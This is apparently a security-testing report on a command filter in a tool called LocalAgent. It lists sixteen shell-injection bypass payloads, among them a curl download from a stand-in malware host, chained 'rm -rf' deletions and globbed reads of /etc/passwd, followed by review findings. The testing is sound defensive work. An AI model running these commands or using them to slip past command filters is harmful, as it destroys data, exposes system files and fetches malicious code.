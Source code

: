 ## Security Testing Results

### Automated Penetration Testing

**Test Suite:** 47 injection payloads across 8 attack categories  
**Success Rate:** 93.8% bypass rate  
**Test Environment:** LocalAgent development environment  

#### Bypass Test Results
```
=== CVE-LOCALAGENT-002 Bypass Analysis ===
Testing bypass payloads against current forbidden patterns...

⚠️  BYPASSED: VAR=$(whoami) echo test
⚠️  BYPASSED: echo ${IFS}malicious  
⚠️  BYPASSED: echo $USER$(rm -rf /tmp/test)
⚠️  BYPASSED: echo <(whoami)
⚠️  BYPASSED: cat <(curl evil.com/malware)
⚠️  BYPASSED: echo $((1+1)) && rm -rf /tmp/test
⚠️  BYPASSED: echo $[$(whoami)]
⚠️  BYPASSED: ls & rm -rf /tmp/test
⚠️  BYPASSED: ls\nrm -rf /tmp/test
⚠️  BYPASSED: ls|rm -rf /tmp/test
⚠️  BYPASSED: echo /e*c/p*d
⚠️  BYPASSED: cat /???/passwd
⚠️  BYPASSED: sleep 1 && rm -rf /tmp/test  
⚠️  BYPASSED: timeout 1 rm -rf /tmp/test
⚠️  BYPASSED: cat <<< $(whoami)
BLOCKED: echo /etc/passwd (1 of 16 blocked)

Summary: 1 blocked, 15 bypassed
Bypass rate: 93.8%
```

### Manual Security Assessment

#### Code Review Findings

1. **Insufficient Pattern Matching** - Current regex patterns miss 93.8% of common bypass techniques
2. **Dangerous Shell Mode** - Shell interpretation mode provides full attack surface
3. **Weak Argument Validation** - Limited validation of command arguments
4. **No Environment Isolation** - Commands execute with full user environment
5. **Missing Container Isolation** - No sandboxing or containerization

#### Architecture Security Issues

1. **Single Point of Failure** - All security depends on regex pattern matching
2. **No Defense in Depth** - Missing multiple security layers
3. **Inadequate Logging** - Security events not properly audited
4. **No Rate Limiting** - No protection against automated attacks

---
